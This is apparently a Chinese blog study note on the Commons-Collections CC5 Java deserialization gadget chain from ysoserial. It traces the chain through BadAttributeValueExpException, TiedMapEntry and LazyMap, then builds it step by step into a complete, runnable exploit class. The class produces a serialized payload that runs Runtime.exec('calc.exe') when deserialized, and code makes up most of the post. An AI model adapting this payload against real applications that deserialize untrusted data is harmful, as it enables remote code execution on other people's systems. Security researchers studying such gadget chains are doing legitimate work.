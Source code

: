 # 环境

- commons-collections:3.2.1
- JDK8u65

我看到ysoserial里面给的环境是commons-collections:3.1和jdk8u76。

jdk8u76在oracle官网没找到，并且看到有别的师傅用的还是8u65，就不改了。

# CC5

看一下ysoserial给的Gadget chain：

```java
/*
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
 */
```

BadAttributeValueExpException的readObject：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231214141831.png)

TiedMapEntry的toString()

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231214143344.png)

跟进getValue：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231214144721.png)

LazyMap的get：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231214144139.png)

后面就比较熟，跳过了。

接下来尝试写exp。首先，LazyMap后面是可以直接复制CC1的：

```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
        new InvokerTransformer("exec", new Class[] { String.class}, new String[] { "calc.exe" }),
};
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
```

然后是调用LazyMap的get这一部分，也就是TiedMapEntry。由于该类实现了Serializable接口，所以直接实例化并控制map为LazyMap：

```java
TiedMapEntry tiedMapEntryClass = new TiedMapEntry(outerMap,1);
```

最后是入口类，需要令valObj为tiedMapEntryClass

```java
BadAttributeValueExpException badAttributeValueExpExceptionClass = new BadAttributeValueExpException(tiedMapEntryClass);
```

拼一下：

```java
Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntryClass = new TiedMapEntry(outerMap,1);
        BadAttributeValueExpException badAttributeValueExpExceptionClass = new BadAttributeValueExpException(tiedMapEntryClass);
```

但是运行发现会有干扰，原因是BadAttributeValueExpException实例化时val不为null会直接调用TiedMapEntry的toString。![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231214153144.png)

用反射来避免这一点：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC5_8u65 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntryClass = new TiedMapEntry(outerMap,1);
        BadAttributeValueExpException badAttributeValueExpExceptionClass = new BadAttributeValueExpException(null);
        Field badAttributeValueExpExceptionField = badAttributeValueExpExceptionClass.getClass().getDeclaredField("val");
        badAttributeValueExpExceptionField.setAccessible(true);
        badAttributeValueExpExceptionField.set(badAttributeValueExpExceptionClass,tiedMapEntryClass);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(badAttributeValueExpExceptionClass);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}

```

# 总结

比较简单。
